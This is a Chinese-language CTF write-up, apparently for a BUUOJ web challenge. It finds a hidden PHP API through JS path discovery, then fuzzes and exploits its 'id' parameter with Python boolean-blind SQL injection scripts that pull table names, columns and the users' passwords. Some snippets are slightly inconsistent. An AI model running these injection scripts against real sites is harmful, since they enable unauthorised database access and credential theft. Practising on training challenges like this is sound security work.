







# 知识点
布尔盲注<br />js路径查找
# 思路
进入题目查看源码，发现首页是一个静态图片，引用了许多js<br /><br />我们通过JSfinder这个工具去查找相关的接口<br />找到一个php接口SUPERAPI.php，访问查看一下<br /><br />查看源码可以看到前端对get传入的'id'参数进行了严格过滤<br /><br />输入1或者2试了一下，会返回admin和flag<br /><br /><br />猜测这里是一个sql注入点，前端进行了过滤其实可以忽略，主要是后端的过滤<br />我们通过这样的payload进行fuzz测试，无过滤时返回admin，过滤时为空
```bash
?id=1 and 'if'='if'--+
```
```bash
f = open("sqlFuzz字典.txt", 'r')
strs = f.readlines()
print("---------  过滤字符")
for i in strs:
    if "'" in i:
        payload = f'1 and "{i}"="{i}"--+'
    else:
        payload = f"1 and '{i}'='{i}'--+"
    time.sleep(0.1)
    r = requests.get(url=url+payload).text
    if 'admin' not in r:
        print("---------  "+i)
```
<br />sleep，union过滤了，所以我们使用布尔盲注
```bash
import requests
import time
url = 'http://0dc42f8d-33c6-4e7e-97e5-3da1cfb6ef80.node4.buuoj.cn:81/SUPPERAPI.php?id='
str = ''
for i in range(60):
    min,max = 32, 128
    while True:
        j = min + (max-min)//2
        if(min == j):
            str += chr(j)
            print(str)
            break
        # 爆数据库
        # payload1 = {
        #     'username': f"' or if(ascii(substr(()))",
        #     'password': f"123"
        # }
        # 爆表名
        # payload = f"1 and ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema=database()),{i},1))<{j} --+"

        # 爆列
        # payload = f"1 and ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='users'),{i},1))<{j} --+"

        # # 爆值
        payload = f"1 and ascii(substr((select group_concat(password) from users),{i},1))<{j} --+"

        # payload = {'username':f"if(load_file('/var/www/html/api/index.php')regexp('{flag+j}'),0,1)",
        #            'password':0}
        r = requests.get(url=url+payload).text
        time.sleep(0.1)
        if(r'admin' in r):
            max = j
        else:
            min = j
```
获取flag<br />
